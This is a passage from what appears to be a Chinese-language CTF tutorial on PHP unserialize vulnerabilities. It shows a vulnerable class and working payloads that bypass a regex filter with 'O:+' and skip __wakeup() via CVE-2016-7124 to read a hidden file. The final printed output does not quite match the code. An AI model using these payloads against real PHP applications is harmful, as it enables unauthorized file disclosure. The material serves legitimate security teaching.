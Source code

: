 ```php
$me = unserialize($temp);
```
输出：
```js
O:13:"SerializeTest":2:{s:19:" SerializeTest flag";s:20:"flag{th15_tru3_f1a9}";s:19:" SerializeTest file";s:8:"test.php";}

O: 代表对象
13代表对象所属类的字符长度表示
:2: 代表具有两个序列化的属性，分别是SerializeTest flag和SerializeTest file，后面的内容对应的是值
```
# **4 常见利用方式总结**

## **4.1 绕过\__wakeup()方法**
看关键的代码：
```php
<?php 
class Demo { 
    private $file = 'Gu3ss_m3_h2h2.php'; 
    public function __construct($file) { 
        $this->file = $file; 
    } 
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    } 
    function __wakeup() { 
        if ($this->file != 'Gu3ss_m3_h2h2.php') { 
            //the secret is in the f15g_1s_here.php 
            $this->file = 'Gu3ss_m3_h2h2.php'; 
        } 
    } 
} 
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else { 
        @unserialize($var); 
    } 
} else { 
    highlight_file("Gu3ss_m3_h2h2.php"); 
} ?>
```
第一步是要绕过正则表达式的判断，preg_match('/[oc]:\d+:/i', $var)，这里绕过正则的方式是在O的后面的加上+号

比如形如这样的序列化：
```js
O:+6:"sercet":1:{s:12:" sercet file";s:12:"the_next.php";}
```
第二是要绕过\__wakeup()对$file对象的赋值，问题是如何绕过\__weakup 百度一下  发现这是一个CVE漏洞 ==》当成员属性数目大于实际数目时可绕过wakeup方法(CVE-2016-7124)
类似这样的payload：
```js
O:+6:"sercet":2:{s:12:" sercet file";s:12:"the_next.php";}
```
***所以构造payload:***
```php
$demo = new Demo('f15g_1s_here.php');
$va = serialize($demo);
$a1 = str_replace('O:4', 'O:+4', $va);
$a1 = str_replace(':1:', ':7:', $a1);
echo base64_encode($a1);
输出：O:+4:"Demo":2:{S:10:"\00Demo\00file";s:16:"f15g_1s_here.php";}
```